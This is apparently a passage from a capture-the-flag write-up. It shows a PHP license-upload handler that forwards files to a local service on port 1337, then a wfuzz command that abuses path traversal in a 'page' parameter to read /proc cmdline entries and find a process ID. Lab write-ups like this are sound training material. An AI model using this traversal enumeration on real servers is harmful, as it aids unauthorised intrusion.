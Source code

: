 ```php
<?php
if(isset($_FILES['licensefile'])) {
    $license      = file_get_contents($_FILES['licensefile']['tmp_name']);
    $license_size = $_FILES['licensefile']['size'];

    $socket = socket_create(AF_INET, SOCK_STREAM, SOL_TCP);
    if (!$socket) { echo "error socket_create()\n"; }

    if (!socket_connect($socket, '127.0.0.1', 1337)) {
        echo "error socket_connect()" . socket_strerror(socket_last_error()) . "\n";
    }

    socket_write($socket, pack("N", $license_size));
    socket_write($socket, $license);

    socket_shutdown($socket);
    socket_close($socket);
}
?>
```

It seems that this thing takes the input from the file we uploaded and sends it to the `activate_license` file on port 1337. We can grab this file and run it on our own PHP server.

```
$ php -S localhost:8000
```

Our script would have to send input to this file in order for it to be sent to the binary.&#x20;

### Proc + Binary Enum

We can continue to enumerate the processes present on the server. First, I want to enumerate what PID is the `activate_license` binary using:

```
$ wfuzz -z range,1-65535 -u 'http://10.129.227.96/index.php?page=../../../../../../../../proc/FUZZ/cmdline' --ss license /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.129.227.96/index.php?page=../../../../../../../../proc/FUZZ/cmdline
Total requests: 65535

=====================================================================
ID           Response   Lines    Word       Chars       Payload                     
=====================================================================

000000432:   302        0 L      1 W        31 Ch       "432"
```
